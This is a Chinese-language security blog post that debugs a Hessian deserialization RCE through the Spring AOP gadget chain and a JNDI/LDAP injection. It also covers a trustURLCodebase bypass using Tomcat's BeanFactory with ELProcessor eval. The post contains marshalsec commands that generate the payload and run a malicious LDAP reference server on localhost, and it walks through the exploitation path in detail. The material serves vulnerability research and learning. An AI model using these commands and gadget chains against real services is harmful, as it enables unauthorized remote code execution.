 ```yaml
---
layout:     post
title:      "Hessian反序列化——Spring AOP链 && JNDI绕过的调试分析"
subtitle:   ""
date:       2020-09-29 19:40:00
author:     "kuron3k0"
header-img: "img/home-bg.jpg"
tags:
    - Hessian
    - 漏洞分析
    - JNDI
---
```


看完[Orange大佬的文章](https://devco.re/blog/2020/09/12/how-I-hacked-Facebook-again-unauthenticated-RCE-on-MobileIron-MDM/)，发现知识盲区，赶紧学习一下

## Hessian

一个基于http的RPC框架，轻量级的RMI，[这里](https://www.cnblogs.com/wynjauu/articles/9010719.html)是Hessian的一些简单的配置和使用

## 环境搭建

先简单搭个环境
![](/img/in-post/Hessian-RCE/main.png)

这里需要引入Hessian的包
```xml
<dependency>
    <groupId>com.caucho</groupId>
    <artifactId>hessian</artifactId>
    <version>4.0.38</version>
</dependency>
```

用marshalsec生成payload
```cmd
D:\tools>java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian SpringPartiallyComparableAdvisorHolder ldap://127.0.0.1:1388/Exp > expxp2
```

同样这个payload也需要有依赖包
```xml
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-aop</artifactId>
    <version>5.0.0.RELEASE</version>
</dependency>
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-context</artifactId>
    <version>4.1.3.RELEASE</version>
</dependency>
<dependency>
    <groupId>org.aspectj</groupId>
    <artifactId>aspectjweaver</artifactId>
    <version>1.6.10</version>
</dependency>
```

ldap服务器开起来
```cmd
D:\tools>java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServe
r http://127.0.0.1:9998/#Exp 1388
```

Exp类的代码如下
![](/img/in-post/Hessian-RCE/expclass.png)


## SpringPartiallyComparableAdvisorHolder利用链分析

直接把刚才生成的payload放到HessianInput.readObject，触发断点。


读取第一个字节判断为Map类型，调用readMap
![](/img/in-post/Hessian-RCE/hessianinput.png)

初始化Map的反序列化类
![](/img/in-post/Hessian-RCE/serializerfactory.png)

读取反序列化的数据并put进HashMap中
![](/img/in-post/Hessian-RCE/mapdeserializer.png)

put的时候，当key的hash一样，但是是不同对象的时候，触发了key对象的equal函数，此时key和k都是HotSwappableTargetSource
![](/img/in-post/Hessian-RCE/hotswappabletargetsource.png)

触发HotSwappableTargetSource对象中target（XString）的equals函数
![](/img/in-post/Hessian-RCE/equals1.png)

触发AspectJAwareAdvisorAutoProxyCreator$PartiallyComparableAdvisorHolder的toString
![](/img/in-post/Hessian-RCE/equals2.png)

进入AspectJPointcutAdvisor的getOrder函数
![](/img/in-post/Hessian-RCE/advisor.png)

AbstractAspectAdvice->getOrder
![](/img/in-post/Hessian-RCE/advice.png)

BeanFactoryAspectInstanceFactory->getOrder
![](/img/in-post/Hessian-RCE/aspectfactory.png)

SimpleJndiBeanFactory->getType
![](/img/in-post/Hessian-RCE/jndifactory.png)

SimpleJndiBeanFactory->doGetType
![](/img/in-post/Hessian-RCE/dogettype.png)

对传入的name参数，会调用isSingleton函数判断是否存在于shareableResources中，如果有的话进入SimpleJndiBeanFactory->doGetSingleton
![](/img/in-post/Hessian-RCE/dogetsingleton.png)

第一次进入的时候singletonObjects是不会有对应的jndi对象的，所以进入else分支，触发lookup
![](/img/in-post/Hessian-RCE/lookup.png)

到这里利用链其实可以算结束了，后面就是lookup的事情了。

## JNDI注入

之前也没了解过lookup之后发生了什么，刚好现在跟一下。


首先进入InitialContext.lookup，根据name获取协议（ldap、rmi等），生成对应的上下文
![](/img/in-post/Hessian-RCE/initcontext.png)
![](/img/in-post/Hessian-RCE/getschema.png)

然后这里我用的是ldap，所以进入了LdapURLContext的lookup
![](/img/in-post/Hessian-RCE/ldapctx.png)

这里根据name参数构建了ldapCtx，然后进入ldapCtx的lookup
![](/img/in-post/Hessian-RCE/generic.png)

继续进入ldapCtx的p_lookup函数
![](/img/in-post/Hessian-RCE/plookup.png)

ldapCtx->c_lookup
![](/img/in-post/Hessian-RCE/clookup.png)

在c_lookup中进入DirectoryManager的getObjectInstance，这时候已经从我们的ldap服务器取到了classFactoryLocation：http://127.0.0.1:9998
![](/img/in-post/Hessian-RCE/getobjinstance.png)

最后调用getObjectFactoryFromReference，实例化对象，从而触发Exp的恶意代码
![](/img/in-post/Hessian-RCE/newinstance.png)

当然这里ldap能用是因为开头设置了trustURLCodebase
![](/img/in-post/Hessian-RCE/trust.png)

我的jdk是1.8.0_265，正常在这里是会被VersionHelper12拦住的，无法load远程class
![](/img/in-post/Hessian-RCE/helper.png)

所以只能用本地的class，但是要利用的话，上面这个触发点就不太行了，因为几乎没有实例化时可以执行命令的类。但是留意到在DirectoryManager->getObjectFactoryFromReference里面实例化之后，还会调用factory的getObjectInstance，那如果有那么个类有getObjectInstance方法且有敏感操作的话，就可以利用了
![](/img/in-post/Hessian-RCE/exec2.png)

这里注意factory会被转成ObjectFactory，所以那个类需要继承ObjectFactory才行
![](/img/in-post/Hessian-RCE/cast.png)


有一个公开的可利用类是org.apache.naming.factory.BeanFactory，属于Tomcat的库，可以通过forceString方法强制指定setter函数并进行调用。

但是在准备调试的时候发现网上搜的代码都是利用rmi，没有ldap的。就感到很奇怪，于是做了一点尝试。


根据Obj类decodeReference的代码，forceString这些属性可以通过在Ldapserver中设置javaReferenceAddress来实现
![](/img/in-post/Hessian-RCE/stringref.png)

于是改写了下marshalsec的LDAPRefServer
![](/img/in-post/Hessian-RCE/ldapserver.png)

然后。。。就没有然后了。。因为obj是Reference，但需要obj是ResourceRef的实例才能进入对应分支，右边可以看到继承关系，如果是Reference继承ResourceRef的话就没问题
![](/img/in-post/Hessian-RCE/ref.png)

无意中google翻到了大佬的[代码](https://github.com/veracode-research/rogue-jndi)，原来javaSerializedData可以这样用的
![](/img/in-post/Hessian-RCE/serialdata.png)

直接运行，果然可以orz
![](/img/in-post/Hessian-RCE/calc.png)

顺便也跟一下，当javaSerializedData存在时，进入反序列化
![](/img/in-post/Hessian-RCE/deserializeobject.png)

readObject，所以return的是ResourceRef对象，在BeanFactory的getObjectInstance函数中就可以进入对应分支
![](/img/in-post/Hessian-RCE/readobject.png)

获取我们输入的forceString属性（`x=eval`），并从beanClass（`javax.el.ELProcessor`）中获取参数为`String.class`的`eval`方法，放进forced中
![](/img/in-post/Hessian-RCE/forcestring.png)

从ResourceRef中获取我们的payload，再根据propName在刚才的forced中拿出eval方法执行，完成攻击
![](/img/in-post/Hessian-RCE/invoke.png)
![](/img/in-post/Hessian-RCE/calc2.png)

大佬的payload中还有其他的gadget，有兴趣的师傅可以调一下。

调试用的代码已经放到[github](https://github.com/kuron3k0/Learn_Hessian_RCE)，大佬们需要的话可以参考一下

## Reference
- [https://devco.re/blog/2020/09/12/how-I-hacked-Facebook-again-unauthenticated-RCE-on-MobileIron-MDM/](https://devco.re/blog/2020/09/12/how-I-hacked-Facebook-again-unauthenticated-RCE-on-MobileIron-MDM/)
- [https://paper.seebug.org/1131/](https://paper.seebug.org/1131/)
- [https://github.com/veracode-research/rogue-jndi](https://github.com/veracode-research/rogue-jndi)

